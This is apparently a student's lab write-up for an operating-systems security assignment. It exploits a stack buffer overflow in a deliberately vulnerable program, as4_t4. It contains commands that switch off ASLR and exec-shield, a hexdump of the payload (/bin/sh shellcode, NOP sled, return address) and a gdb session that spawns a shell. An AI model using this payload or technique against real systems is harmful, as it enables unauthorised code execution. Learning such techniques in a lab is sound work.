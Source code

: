 # Documentation on task 1a
-------------------------
## Preparation
To make sure all security measurements are turned off, run the following:

    $ sudo -i
    # echo 0 > /proc/sys/kernel/randomize_va_space
    # echo 0 > /proc/sys/kernel/exec-shield   

## How to create and run the exploit
This creates a file `exploit`, with a crafted string to run `/bin/sh` using the vulnerable `as4_t4`

    $ perl exploit.pl

It should look like this (check with `hexdump -C exploit`):

    00000000  31 c9 f7 e1 51 68 2f 2f  73 68 68 2f 62 69 6e 89  |1...Qh//shh/bin.|
    00000010  e3 b0 0b cd 80 90 90 90  90 90 90 90 90 90 90 90  |................|
    00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
    *
    00000060  90 90 90 90 90 90 90 90  90 90 90 90 30 f6 ff bf  |............0...|
    00000070

You can see it working by entering:

    $ gdb ./as4_t4
    (gdb) run `cat exploit`
    Starting program: /home/oscourse/task-4/as4_t4 `cat exploit`
    process 2381 is executing new program: /bin/dash
    $ ls
    as4_t4	as4_t4.c  exploit  exploit.pl
 
## How we crafted the exploit
We figured out that the return address was set after 108 chars of input. At this place we wanted to insert the location for the given buffer, so the program would run shell code from our own buffer. We found that buffer address by recompiling the `as4_t4.c` (with buffer length now set to 96) so we could run it in `gdb` and set some breakpoint on a certain line (we used as4_t4.c:8, just after the overflow). At the break we could use the command `p/x &buf` to see the buffer's location and could confirm by repeating this procedure it wouldn't change over time. The location was therefore `0xbffff630` (see last 4 bytes of the hexdump).
 
We've used [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-517.php) to spawn `/bin/sh`. This is set at the beginning of the buffer (see lines 00-30). The middle part is stuffing with NOP (lines 30-60) till we are at 108 bytes and add the aforementioned return address.